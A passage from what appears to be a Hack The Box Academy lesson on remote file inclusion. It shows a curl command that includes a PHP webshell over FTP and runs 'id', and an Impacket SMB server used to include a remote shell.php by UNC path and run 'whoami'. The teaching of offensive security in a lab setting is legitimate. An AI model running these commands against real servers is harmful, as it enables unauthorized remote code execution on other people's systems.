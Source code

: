 ![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

Como podemos ver, esto funcionó de manera muy similar a nuestro ataque HTTP, y el comando fue ejecutado. Por defecto, PHP intenta autenticarse como un usuario anónimo. Si el servidor requiere una autenticación válida, entonces las credenciales se pueden especificar en la URL, de la siguiente manera:

Inclusión de archivos remotos (RFI)

```
xnoxos@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# **SMB**

If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

We can spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default, as follows:

Remote File Inclusion (RFI)

```
xnoxos@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

Now, we can include our script by using a UNC path (e.g. `\\<OUR_IP>\share\shell.php`), and specify the command with (`&cmd=whoami`) as we did earlier:

![](https://academy.hackthebox.com/storage/modules/23/windows_rfi.png)

As we can see, this attack works in including our remote script, and we do not need any non-default settings to be enabled. However, we must note that this technique is `more likely to work if we were on the same network`, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.